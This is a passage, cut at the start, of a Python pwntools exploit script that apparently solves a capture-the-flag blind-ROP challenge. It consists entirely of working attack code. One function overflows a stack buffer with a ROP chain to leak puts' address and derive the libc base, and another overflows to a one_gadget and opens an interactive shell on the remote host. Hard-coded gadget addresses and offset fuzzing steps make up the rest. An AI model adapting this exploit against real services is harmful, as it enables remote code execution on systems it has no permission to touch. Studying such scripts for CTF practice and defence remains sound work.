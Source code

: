 ```
            p.close()
        except EOFError:
            p.close()

    return content

def leak_libc(offset, main_addr, pop_rdi, puts_addr, puts_plt):#(6)
    try:
        p = remote(host, port)
        p.recvuntil("WelCome my friend,Do you know password?\n")
        payload = 'A'*offset + p64(pop_rdi) + p64(puts_plt) + p64(puts_addr) + p64(main_addr)
        p.send(payload)
        result = p.recvuntil("WelCome")
        result = result[:result.find("\nWelCome")]
        puts_libc = u64(result.ljust(8,'\x00'))
        libc = LibcSearcher('puts',puts_libc) 
        libc_base = puts_libc - libc.dump('puts')
        p.close()
        return libc_base
    except EOFError:
        p.close()

def get_shell(offset, one_gadget):#(7)
    try:
        p = remote(host, port)
        p.recvuntil("WelCome my friend,Do you know password?\n")
        payload = 'A'*offset + p64(one_gadget)
        p.send(payload)
        p.interactive()
        #p.close()
    except EOFError:
        p.close()
 

if __name__=='__main__':

    logs = log.progress("Find the offset")
    log_off()
    offset = fuzz_offset()
    log_on()
    logs.success("offset is %d " % offset)
    
    logs = log.progress("Find the stop_gadget")
    log_off()
    #main_addr = fuzz_stop_gadget(offset)
    log_on()
    main_addr = 0x4005b0
    logs.success("main_addr is at 0x%x " % main_addr)

    logs = log.progress("Find the pop_gadget")
    log_off()
    #pop_addr = fuzz_pop_gadget(offset, main_addr)
    log_on()
    pop_addr = 0x40079a
    logs.success("Find the pop_gadget at 0x%x " % pop_addr)

    logs = log.progress("Find the puts_addr")
    log_off()
    pop_rdi = pop_addr + 9
    #puts_addr = fuzz_puts_addr(offset, main_addr,pop_rdi)
    puts_addr = 0x400565
    log_on()
    logs.success("Find the puts_addr at 0x%x " % puts_addr)
```